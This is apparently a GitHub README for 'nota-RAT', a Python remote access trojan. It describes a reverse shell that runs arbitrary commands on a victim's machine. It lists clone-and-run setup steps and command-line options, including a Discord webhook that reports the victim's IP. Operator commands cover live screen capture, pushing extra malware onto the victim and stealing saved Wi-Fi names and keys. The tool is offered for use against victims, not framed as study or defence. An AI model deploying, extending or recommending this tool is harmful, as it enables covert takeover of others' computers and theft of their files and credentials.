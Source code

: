 # nota-RAT - Simple reverse shell with python using encryption

## What is nota-RAT?
nota-RAT is basically a reverse shell using sockets (for connections) in python that can run pretty much all cli commands in Linux, Windows and MacOS (but has only been properly tested in Ubuntu Linux and Windows 10, 11).

1. The RAT binds sockets together so that the attacker can connect.
2. after you connect as the attacker you can run pretty much any cli command
3. When a command is send it uses Fernet for end to end encryption

## Features
* Encryption
* * nota-RAT uses the python library Fernet for encryption
* * Fernet uses AES in CBC mode with a 128-bit key for encryption; using PKCS7 padding
* Discord webhooks
* * nota-RAT uses the pythom library discord_webhook for discord web hooks
* * The web hooks display the IP of the victim and shows the avg ping of the connection
* Get/Send files
* * nota-RAT can get and send files from the files direcotry into the RAT's CWD
* * This can we used to send additional malware to the victim's PC
* Live feed
* * nota-RAT uses the vidstream library to get a live feed of the victim's screen
* Wifi
* * Using netsh not-malware can get all ssids and security keys that the victim has connected to

## How to install and run?
   
Cloning using git.

1. Clone the repo
   ```sh
   git clone https://github.com/fluffydolphin/not-RAT.git
   ```
   
2. cd into not-RAT
   ```sh
   cd nota-RAT
   ```
   
2. cd into server or RAT
   ```sh
   cd attacker
   ```
   ```sh
   cd RAT
   ```
   
3. Run command for either server or RAT
   ```sh
   sudo python attacker.py
   ```
   ```sh
   python RAT.py
   ```
  
That's all it takes to install and run nota-RAT.

## Commands and Configuration for nota-RAT.
It is possible to modify the behaviour of nota-RAT with cli
arguments. In order to get an up-to-date help document, just run
`attacker -h`.

you can change the server ip on the client and bot but not on the server, the default host ip on the server is 0.0.0.0 (localhost)

* -p, --port
* * Port of the Server, default 423
* -d, --discord
* * After you have added discord webhooks as a argument then you need to specify your webhooks URL
* * Example: python attacker.py -p 5000 -d https://discord.com/api/webhooks/your-webhook-url

---------------------------------------------------------------------------------------------------------------------------------------------------------

These commands are for after you have started nota-RAT and adjusted the behaviour

* /help                      
* * Print this message.
* /getlive                   
* * Gets a live feed of victim's screen.
* /stoplive                  
* * Stop the live feed of victim's screen.
* /sendfile                  
* * Sends a file from the files directory in the victom's CWD directory.
* /getfile                   
* * Gets a file from the victim's CWD and puts it into the files directory.
* /getwifi                   
* * Gets SSIDs and security keys from victim's PC.
* /clear                     
* * Clear screen.
* /exit/quit/q               
* * Close session and exit.
